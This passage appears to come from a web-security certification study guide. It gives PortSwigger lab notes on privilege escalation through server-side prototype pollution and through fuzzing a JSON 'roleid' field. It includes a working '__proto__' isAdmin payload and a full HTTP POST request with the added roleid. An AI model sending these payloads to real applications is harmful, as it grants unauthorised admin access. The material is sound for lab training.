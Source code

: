 > Observe the `isAdmin` property and resend the POST update account with the `__proto__` payload below to elevate our access role to Administrator.

```JSON
"__proto__": {
    "isAdmin":true
}
```

[PortSwigger Lab: Privilege escalation via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution)

***

### Access Control

[JSON roleid PrivEsc](broken-reference)\
[Original URL](broken-reference)\
[Drop Select a role](broken-reference)\
[Trace to Admin](broken-reference)\
[HTB requested I remove my write-up for CPTS Skills assessments - IDOR](https://github.com/botesjuan/cpts-quick-references/blob/main/module/Web-Attacks.md#idor)

#### PrivEsc JSON RoleId

> Access control to the admin interface is based on user roles, and this can lead to privilege escalation or access control (IDOR) security vulnerability.

> Capture current logged in user email change email submission request and send to **Intruder**, then add `"roleid":§32§` into the JSON body of the request, and fuzz the possible `roleid` value for administrator access role.

```html
POST /my-account/change-email HTTP/1.1
Host: TARGET.net
Cookie: session=vXAA9EM1hzQuJwHftcLHKxyZKtSf2xCW
Content-Length: 48
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Connection: close

{
 "csrf":"u4e8f4kc84md743ka04lfos84",
 "email":"carlos@server.net",
 "roleid": 42
}
```

> The Hitchhiker's Guide to the Galaxy answer was [42](https://en.wikipedia.org/wiki/Phrases\_from\_The\_Hitchhiker's\_Guide\_to\_the\_Galaxy#42\_Puzzle)

> Attacker _**identify**_ the possible role ID of administrator role and then send this request with updated roleId to privilege escalate the current logged in user to the access role of administrator.
